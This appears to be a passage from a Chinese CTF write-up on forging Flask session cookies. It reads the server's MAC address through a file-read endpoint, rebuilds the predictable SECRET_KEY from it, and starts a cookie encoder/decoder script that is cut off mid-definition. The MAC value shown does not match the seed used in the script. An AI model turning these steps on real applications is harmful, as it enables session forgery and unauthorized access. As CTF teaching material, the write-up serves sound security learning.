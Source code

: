 ```
 				host="0.0.0.0"
 				 )

```

可以看到session中加密的内容，通过.隔开的3段内容，第一段其实就是base64 encode后的内容，但去掉了填充用的等号，若decode失败，自己需要补上1-3个等号补全。中间内容为时间戳，在flask中时间戳若超过31天则视为无效。最后一段则是安全签名，将sessiondata,时间戳，和flask的secretkey通过sha1运算的结果。

![image-20240905204415816](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409052044856.png)

通过base64解码可以得到前面的内容是{“username”:{" b":“d3d3LWRhdGE=”}，其中d3d3LWRhdGE=是www-data的base64编码，从源码中也可以看出来，然后源码中可以看到Secre_Key的生成方式,其中用于生成伪随机数seed的函数uuid.getnode(),用来获取Mac地址并且将其转换为整数，那么需要我们先读取Mac地址，read?url=/sys/class/net/eth0/address,读取到mac地址为5e:29:a4:8d:4b:1f

```
 random.seed(uuid.getnode()) 
 app.config['SECRET_KEY'] = str(random.random()*233) 

```

然后可以编写脚本获得Secre_Key，需要在python2下运行因为生成的位数会不一样，得到结果为`187.158318454`

```
import random
random.seed(0x0242ac10ae6d)
print(str(random.random()*233))

```

然后便可以利用以下脚本伪造session了

```
#!/usr/bin/env python3
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3:  # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4:  # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else:  # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface


class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4:  # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
```